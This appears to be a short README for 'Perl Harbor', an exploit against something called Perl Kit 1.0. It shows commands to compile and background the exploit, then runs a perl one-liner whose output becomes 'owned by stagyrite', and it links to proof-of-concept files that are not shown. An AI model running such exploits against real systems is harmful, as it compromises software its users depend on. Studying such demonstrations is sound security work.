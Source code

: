 # perlharbor

Perl Harbor: exploit against Perl Kit 1.0

## Execution

```
gcc -o perl-harbor perl-harbor.c
./perl-harbor &
./perl -e 'print "hello, world\n";'

Successful execution ends with printing "owned by stagyrite".
```

## Example

```
$ ./perl-harbor &
[1] 5406
$ ./perl -e 'print "hello, world\n";'
owned by stagyrite
```

## Proof of concept

* [Concept #1](CONCEPT.1 "Concept")
* [Concept #2](CONCEPT.2 "Concept")

⚛🍅🦅🦅

